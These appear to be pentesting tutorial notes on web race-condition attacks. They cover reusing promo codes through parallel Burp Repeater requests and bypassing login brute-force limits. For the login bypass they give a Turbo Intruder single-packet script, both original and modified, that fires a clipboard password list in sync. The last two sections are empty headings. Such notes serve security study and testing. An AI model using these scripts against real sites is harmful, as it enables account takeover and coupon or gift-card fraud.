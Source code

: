 # Race Conditions
## 1. Limit Overrun Race Conditions
### (i). Using promo code multiple times or redemming a gift card multiple times**: Send the request that is applying coupon code to the repeater. Add it in a group. Duplicate it 20 times and send it send the requests parallely.<br>
### (ii). Bypassing Bruteforce Protection
Send the login request to repeater and take this into turbo intruder.<br>
Copy all the passwords for which you want to include the request.<br>
In the requestm change password=VALUE to password=%s<br>
Change the script to examples/race-single-packet-attack.py<br>
Copy the passwords so that it can be in the clipboard.
Original Script:
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        engine.queue(target.req, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Changed Script:
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Click on Attack.
### (ii). Rating/Likes multiple times
### (iv). Reusing single captcha multiple times

